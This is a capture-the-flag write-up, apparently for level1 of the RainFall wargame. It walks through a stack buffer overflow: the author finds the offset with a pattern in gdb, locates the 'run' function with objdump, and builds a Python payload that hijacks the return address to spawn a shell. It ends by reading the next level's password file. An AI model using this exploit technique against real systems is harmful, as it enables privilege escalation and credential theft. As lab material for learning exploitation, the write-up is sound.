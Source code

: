 First we start by looking the binary file using [dogbolt](https://dogbolt.org/). We can see that we must trigger the `run` function

Lets start simple just by a basic pattern overflow

We will use the pattern :
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

When executed in gdb we have:

```
(gdb) r
Starting program: /home/user/level1/level1
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```

Here we can see that we overflow on the 4 byte 0x74747474 which are `tttt` in ascii

So we will launch the program the same way but we remove the part starting at `tttt` and put a 4 bytes address to `run` at the position of the overflow instead

Lets find the address of the `run` function:
```SHELL
level1@RainFall:~$ objdump -t level1
...
080497b4 g       *ABS*  00000000              _edata
08048444 g     F .text  0000003c              run
0804854c g     F .fini  00000000              _fini
...
```
The address of `run` : `08048444`
In little endian : `\x44\x84\x04\x08`

But When I do:

```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' | ./level1
```

I have :

```
Good... Wait what?
Segmentation fault (core dumped)
```

Here we can see that it enter the run function but we cant use the shell this is because stdin is closed at the end of the program

Now we will put the exploit it in a file :

``` Shell
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' > /tmp/exploit
```

and execute it with the `-` option for the `cat` command to keep the stdin open

```Shell
cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
```

Since the level1 file belongs to level2 we can now:
```Shell
cat /home/user/level2/.pass
```